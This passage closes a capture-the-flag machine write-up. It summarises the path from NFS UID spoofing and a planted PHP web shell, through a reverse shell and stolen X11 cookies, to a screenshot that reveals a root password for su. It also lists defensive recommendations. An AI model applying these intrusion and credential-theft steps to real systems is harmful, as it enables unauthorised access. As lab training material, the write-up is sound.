

The screenshot shows **KeePassXC** with an unlocked entry (including a **root** row). You can try unlocking the **`Passwords.kdbx`** you saw on NFS with that password; if it fails, the **system** **`root`** password (for **`su`**) is still the one shown in the entry list:



In this run, the **KeePass** unlock attempt did not succeed, but the **root** password visible in the entry list worked for **`su`** on the box.

---
### 4.3 Root / Administrator access

Validate **`root`** with the password recovered from the screenshot, then read the flag.

```bash
su root
whoami
cd /root && cat root.txt
```



🏁 **Root flag obtained** 

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **TCP scan** → SSH, HTTP, **NFS/RPC** surface identified.  
2. **`showmount`** → exports **`/home/ross`** and **`/var/www/html`**.  
3. **Mount** shares; observe **UID 1001** (ross home) and **UID 2017** (docroot).  
4. **Local UID 2017** → write **`cmd.php`** → **RCE** as **`alex`** → reverse shell → **`user.txt`**.  
5. **Local UID 1001** → read **`.Xauthority`** → exfil to target → fix **`HOME`/`XAUTHORITY`** → **X11** access to **`:0`**.  
6. **`xwd`** screenshot → **KeePassXC** reveals **root** password → **`su`** → **`root.txt`**.

---
## Defensive Recommendations

- Restrict **NFS** exports to known client IPs; avoid **`*`**; prefer **Kerberos** or VPN-only mounts where possible.  
- Use **`all_squash`** / careful **`anonuid`/`anongid`** only when fully understood; align exports with least privilege.  
- Do not rely on **GUI sessions** on servers holding sensitive password managers; prefer headless **secret** stores with strict file permissions.  
- Consider periodic review of **web root** integrity monitoring if uploads are ever possible (cleanup scripts are a symptom of a deeper trust issue).  
- For **X11** on multi-user systems, limit **local** cookie exposure and session sharing.
